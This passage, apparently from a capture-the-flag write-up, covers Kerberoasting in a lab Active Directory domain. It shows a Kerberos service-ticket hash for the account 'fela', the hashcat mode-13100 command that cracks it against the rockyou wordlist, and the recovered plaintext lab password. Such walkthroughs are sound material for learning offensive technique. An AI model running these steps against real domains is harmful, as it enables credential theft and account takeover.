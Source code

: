 ~~~
                       F4981D9BE577936C48F0B3D9759167A410BD2FED73DD58688FECDAC486F1DF75560B6A7F835E20AA347B222B9A433605
                       10F9A3F467CC56621275D48C27BF2C30738AC4DB77D5DDAB96FF045993F947F605F9FEB73473E2A656C833A43FB72D94
                       158121B4CFCA35B7EADFFB7B3B032339A1AD652034012A317B3B168D4366DD9B632A64B330833887F51DEC7CC1C7BECA
                       784C4E916494E82B62DACA9658A23E579C94B15F747E2F21EF2ADBCE982C554F17D5F814ECA8D6DC546BA8A0C8EC3292
                       DC03F3024D1F29B677EDC0244BD33FBF387367AB76A44CA923BE2684A71401E18271C7CE40E045E8D04571E6DBFB34D2
                       21755C0E3ECB8FFFEE75EB869C2E986FD33394C423892F8C5C66C3329870D97CE1ACD5638946253B65C950498AFF3297
                       4C016761C0F9AB07220CEFE18B8A5520C54DEF11509C82843BBEA57BEFD126E252DCCFE0974613E2A1470C357A347C2E
                       3709F20EDCB5F6CEDFEA1E915C2A041A07C2E9D4E34D6BF8F45A0FC29E05DD7CD27586294F0A1E90607E1B2C6872803C
                       316172B2FB4D2AFB6CE87192310BFC04067289D148382921A612C8E88DE9D21AEE82C11432216CF86A9E773C6A9E75F3
                       FBB154DAA7AFF2B47E77BAC2283B898BB1362D03B8A6B0E6ABA70B90CFA6ABAB1A3EDFB37A59020EC8BA0B1D1702A003
                       54BD7BE6243CC0AED11FD3DB4134608980421DBDBA90D994C829F47908D2AD349F8FCF739E10260C82F5CA52A550307A
                       8BD10B394E9E925AC3E779F355A57F76505FEB41618EBAD6000165D0C37D4EADF6F359AA9A25796EEAD98008F4E7318A
                       2BF96D40E894A34A01D00C012B1AA6E7728559285E096ADC781E60368D7DFC132F68706C1FC6A639CF37E288000040D7
                       C0D21CE1DEBF47B7BE0E0980F104D32BCB527CC2B98902EF034B507DF70DC84FD0815CBC3F9EEE484A8040AB4ED6BD55
                       8CA18ECF0F5221649D1FD044CE7595B74914CAD1B4A6AEE391C1EF18A3AE5C7AC9934B11C0D2040B9B3630BF0FFE7BC8
                       4332C49533D4F665C81C3AECC95BCF07F0CEA82C2AB
SamAccountName       : fela
DistinguishedName    : CN=fela,CN=Users,DC=corp,DC=local
ServicePrincipalName : HTTP/fela
~~~

Save the hash in a file called `hash.txt`.

## #3.3

**Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.**

**`hashcat -m 13100 -​a 0 hash.txt wordlist --force`**

**Crack the hash. What is the users password in plain text?**

Let's crack the hash:

~~~
root@kali:~# hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

[REDACTED]

$krb5tgs$23$*fela$corp.local$HTTP/fela*$91413060[REDACTED]0cea82c2ab:rubenF124

[REDACTED]
~~~
